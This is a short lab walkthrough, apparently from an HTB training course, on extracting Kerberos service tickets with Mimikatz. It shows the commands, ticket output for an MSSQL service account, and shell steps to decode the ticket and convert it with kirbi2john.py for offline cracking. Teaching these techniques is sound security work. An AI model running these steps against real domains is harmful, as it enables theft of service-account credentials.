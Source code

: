
## Extract Tickets w Mimikatz

Now that the tickets has been loaded to the memory, let's extract them using Mimikatz.

```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjug<SNIP>QzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```

We used `base64 /out:true` so it is easier for us to transfer the output. 

If not specified, tickets will be extracted in a format of `.kirbi` file.

## Crack it

If we have the base64 encoded ticket, let's format it to remove empty lines:

```shell-session
jadu101@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```

Now copy the formatted output and save it to a separate file and convert it back to `.kirbi` file:

```shell-session
jadu101@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

Now let's use kirbi2john.py to extract the kerberos ticket:

```shell-session
jadu101@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```
